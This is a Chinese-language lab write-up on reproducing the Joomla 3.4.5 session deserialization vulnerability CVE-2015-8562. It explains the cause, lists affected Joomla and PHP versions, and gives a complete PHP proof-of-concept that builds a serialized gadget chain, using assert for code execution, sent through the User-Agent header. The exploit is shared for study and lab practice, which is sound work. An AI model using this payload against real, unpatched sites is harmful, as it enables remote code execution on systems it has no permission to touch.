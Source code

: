 

# Joomla 3.4.5 反序列化漏洞（CVE-2015-8562）

###### by ADummy

### 0x00利用路线

​			burpsuite抓包改包--->命令执行

### 0x01漏洞介绍

​			本漏洞根源是PHP5.6.13前的版本在读取存储好的session时，如果反序列化出错则会跳过当前一段数据而去反序列化下一段数据。而Joomla将session存储在Mysql数据库中，编码是utf8，当我们插入4字节的utf8数据时则会导致截断。截断后的数据在反序列化时就会失败，最后触发反序列化漏洞。通过Joomla中的Gadget，可造成任意代码执行的结果。

​			影响版本

  	Joomla 1.5.x, 2.x, and 3.x before 3.4.6
  	PHP 5.6 < 5.6.13, PHP 5.5 < 5.5.29 and PHP 5.4 < 5.4.45

### 0x02漏洞复现

	安装joomla，
	数据库地址：mysql:3306
	用户：root
	密码：root
	数据库名：joomla
	填入上述信息，正常安装即可。
然后我们不带User-Agent头，先访问一次目标主页，记下服务端返回的Cookie：

![Joomla_反序列化漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Joomla_反序列化漏洞_1.jpg)



![Joomla_反序列化漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Joomla_反序列化漏洞_2.jpg)

再用如下脚本生成POC：（[在线运行](http://sandbox.onlinephpfunctions.com/code/17e7080841ccce12f6c6e0bb1de01b9e390510bd)）

```php
<?php
class JSimplepieFactory {
}
class JDatabaseDriverMysql {

}
class SimplePie {
    var $sanitize;
    var $cache;
    var $cache_name_function;
    var $javascript;
    var $feed_url;
    function __construct()
    {
        $this->feed_url = "phpinfo();JFactory::getConfig();exit;";
        $this->javascript = 9999;
        $this->cache_name_function = "assert";
        $this->sanitize = new JDatabaseDriverMysql();
        $this->cache = true;
    }
}

class JDatabaseDriverMysqli {
    protected $a;
    protected $disconnectHandlers;
    protected $connection;
    function __construct()
    {
        $this->a = new JSimplepieFactory();
        $x = new SimplePie();
        $this->connection = 1;
        $this->disconnectHandlers = [
            [$x, "init"],
        ];
    }
}

$a = new JDatabaseDriverMysqli();
$poc = serialize($a); 

$poc = str_replace("\x00*\x00", '\\0\\0\\0', $poc);

echo "123}__test|{$poc}\xF0\x9D\x8C\x86";
```



![Joomla_反序列化漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Joomla_反序列化漏洞_3.jpg)

将生成好的POC作为User-Agent，带上第一步获取的Cookie发包，这一次发包，脏数据进入Mysql数据库。然后同样的包再发一次，我们的代码被执行：

![Joomla_反序列化漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Joomla_反序列化漏洞_4.jpg)